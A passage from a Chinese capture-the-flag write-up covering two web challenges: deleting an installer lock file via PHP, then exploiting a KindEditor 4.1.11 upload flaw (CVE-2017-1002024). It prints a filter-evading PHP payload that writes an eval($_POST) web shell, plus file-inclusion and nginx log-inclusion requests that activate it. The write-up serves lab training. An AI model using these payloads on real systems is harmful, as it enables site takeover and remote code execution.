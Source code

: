 ```php
<?php unlink('/var/www/html/install/lock.dat')?>
```

![](https://i.loli.net/2021/10/21/jwDT38HNXeKzp6t.png)

后续一样

![](https://i.loli.net/2021/10/21/6bSgeI9pAdQhmsY.png)

还看到bit师傅的做法，直接cat 后台check.php的源码到txt里，查看即可



## 388 editor(CVE-2017-1002024/免杀马)

扫出`/debug`、`/alsckdfy/editor/`

`/debug`结果如下，调试结果会被写到日志中。猜测是文件包含后再写到日志里

![](https://i.loli.net/2021/10/21/CAxQWtR5OmhFe2j.png)

再看`/alsckdfy/editor/`

在js看到编辑器版本信息KindEditor 4.1.11，
搜一下知道有个漏洞（CVE-2017-1002024）Kindeditor \<=4.1.11 上传漏洞

![](https://i.loli.net/2021/10/21/eGj3cyNdAJlZvtF.png)

访问`/alsckdfy/editor/`，随便传一个php看看白名单

![](https://i.loli.net/2021/10/21/P9J2x6wItvM3DLV.png)

因为对代码也有过滤，拼接绕过，然后放在txt里上传

```php
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

上传拿路径
![](https://i.loli.net/2021/10/21/ujafJmMhCzEPByb.png)



然后到`/debug`调试写到日志里

```
/debug/?file=/var/www/html/alsckdfy/attached/file/20211021/20211021065810_79266.txt
```

再文件包含日志，让马能成功写进去

```
/debug/?file=/var/log/nginx/access.log
```
